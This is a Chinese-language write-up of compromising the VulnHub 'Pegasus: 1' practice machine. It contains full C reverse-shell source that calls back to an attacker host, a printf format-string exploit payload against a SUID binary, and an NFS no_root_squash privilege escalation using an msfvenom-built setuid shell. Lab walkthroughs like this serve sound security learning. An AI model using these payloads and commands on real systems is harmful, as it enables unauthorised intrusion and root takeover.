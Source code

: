 # Pegasus: 1

2024-12-28 https://www.vulnhub.com/entry/pegasus-1,109/

## IP

192.168.10.152

## Scan

```
PORT      STATE SERVICE
22/tcp    open  ssh
111/tcp   open  rpcbind
8088/tcp  open  radan-http
32821/tcp open  unknown
```

先看 8088 web，首页是张图片，看看有没有隐写，没有发现隐写，html 源码中也无信息。

进行目录扫描：

```
ffuf -t 100 -ac -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -recursion -recursion-depth 1 -e .php -u http://192.168.10.152:8088/FUZZ
```

发现 submit.php 文件，访问后提示：No data to process. 应该是一个接收提交的 php 接口，但是没构造出来访问参数，可能还有其他的页面没有被扫描出来，使用大字典，找到了另外一个页面: codereview.php, 这个页面就是提交数据到 submit.php 上。

使用 bp 抓包，然后发送到 Repeater 上，进行测试，没有发现 sql 注入，也没有文件包含，在看看有没有 RCE，发现有提示：

```
code=system('ls')

Sorry, due to security precautions, Mike won't review any code containing system() function call.
```

说明对执行函数有过滤，看着像是 PHP 的语法，但是尝试其他命令执行函数后，都不行，可能不是 php 语言。

尝试 c 语言，找到 reverse shell 的代码，修改 ip 和端口，并且在 kali 上建立监听：

```
#include <sys/socket.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <sys/types.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

/* ================================================== */
/* |     CHANGE THIS TO THE CLIENT IP AND PORT      | */
/* ================================================== */
#if !defined(CLIENT_IP) || !defined(CLIENT_PORT)
# define CLIENT_IP (char*)"192.168.10.3"
# define CLIENT_PORT (int)8888
#endif
/* ================================================== */

int main(void) {
	if (strcmp(CLIENT_IP, "0.0.0.0") == 0 || CLIENT_PORT == 0) {
		write(2, "[ERROR] CLIENT_IP and/or CLIENT_PORT not defined.\n", 50);
		return (1);
	}

	pid_t pid = fork();
	if (pid == -1) {
		write(2, "[ERROR] fork failed.\n", 21);
		return (1);
	}
	if (pid > 0) {
		return (0);
	}

	struct sockaddr_in sa;
	sa.sin_family = AF_INET;
	sa.sin_port = htons(CLIENT_PORT);
	sa.sin_addr.s_addr = inet_addr(CLIENT_IP);
	int sockt = socket(AF_INET, SOCK_STREAM, 0);

#ifdef WAIT_FOR_CLIENT
	while (connect(sockt, (struct sockaddr *) &sa, sizeof(sa)) != 0) {
		sleep(5);
	}
#else
	if (connect(sockt, (struct sockaddr *) &sa, sizeof(sa)) != 0) {
		write(2, "[ERROR] connect failed.\n", 24);
		return (1);
	}
#endif

	dup2(sockt, 0);
	dup2(sockt, 1);
	dup2(sockt, 2);
	char * const argv[] = {"/bin/sh", NULL};
	execve("/bin/sh", argv, NULL);

	return (0);
}
```

上传后，瞬间得到了反弹的 shell，先用 python 升级下 tty。

发现自定义 suid 程序：/home/mike/my_first，对其进行反编译，发现存在字符串溢出漏洞攻击 printf(format) ，经过测试，实现利用的 payload：

```
ln -s /bin/sh Selection:
export PATH=.:$PATH
(printf '1\n1\n\xfc\x9b\x04\x08\xfe\x9b\x04\x08%%36952u%%8$n%%44966u%%9$n'; cat) | ./my_first
```

最终得到了 john 的 shell。sudo -l 发现：(root) NOPASSWD: /usr/local/sbin/nfs ，并且发现 nfs 的配置文件有漏洞 no_root_squash：

```
/opt/nfs	*(rw,sync,crossmnt,no_subtree_check,no_root_squash)
```

启动 nfs，在 kali 上挂载，并且传入一个 root 权限的 suid 程序，从而得到了 root 权限：

目标机器上启动：

```
sudo nfs start
```

kali 上操作：

```
mount 192.168.10.152:/opt/nfs /tmp/nfs
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
sudo chown root /tmp/nfs/shell.elf
sudo chmod +xs /tmp/nfs/shell.elf
```

然后在目标机器上执行 shell.elf 就得到了 root 权限。
